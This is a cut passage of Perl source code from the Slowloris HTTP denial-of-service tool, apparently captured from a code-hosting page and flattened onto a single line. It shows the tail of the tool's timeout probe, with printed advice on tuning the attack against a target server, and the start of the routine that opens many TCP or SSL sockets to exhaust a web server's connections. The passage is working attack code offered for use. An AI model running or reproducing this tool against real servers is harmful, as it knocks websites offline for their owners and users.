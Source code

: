 {             if ( $SIG{__WARN__} ) {                 $delay = $times[ $i - 1 ];                 last;             }             print "\tFailed after $times[$i] seconds.\n";         }     }      if ( print $sock "Connection: Close\r\n\r\n" ) {         print "Okay that's enough time. Slowloris closed the socket.\n";         print "Use $delay seconds for -timeout.\n";         exit;     }     else {         print "Remote server closed socket.\n";         print "Use $delay seconds for -timeout.\n";         exit;     }     if ( $delay &lt; 166 ) {         print &lt;&lt;EOSUCKS2BU; Since the timeout ended up being so small ($delay seconds) and it generally  takes between 200-500 threads for most servers and assuming any latency at  all...  you might have trouble using Slowloris against this target.  You can  tweak the -timeout flag down to less than 10 seconds but it still may not  build the sockets in time. EOSUCKS2BU     } } else {     print "Connecting to $host:$port every $timeout seconds with $connections sockets:\n";      if ($usemultithreading) {         domultithreading($connections);     }     else {         doconnections( $connections, $usemultithreading );     } }  sub doconnections {     my ( $num, $usemultithreading ) = @_;     my ( @first, @sock, @working );     my $failedconnections = 0;     $working[$_] = 0 foreach ( 1 .. $num );    #initializing     $first[$_]   = 0 foreach ( 1 .. $num );    #initializing     while (1) {         $failedconnections = 0;         print "\t\tBuilding sockets.\n";         foreach my $z ( 1 .. $num ) {             if ( $working[$z] == 0 ) {                 if ($ssl) {                     if (                         $sock[$z] = new IO::Socket::SSL(                             PeerAddr => "$host",                             PeerPort => "$port",                             Timeout  => "$tcpto",                             Proto    => "tcp",                         )                       )                     {                         $working[$z] = 1;                     }                     else {                         $working[$z] = 0;                     }                 }                 else {                     if (                         $sock[$z] = new IO::Socket::INET(                             PeerAddr => "$host",                             PeerPort => "$port",                             Timeout  => "$tcpto",                             Proto    => "tcp",                         )                       )                     {                         $working[$z] = 1;                         $packetcount = $packetcount + 3;  #SYN, SYN+ACK, ACK                     }                     else {                         $working[$z] = 0;         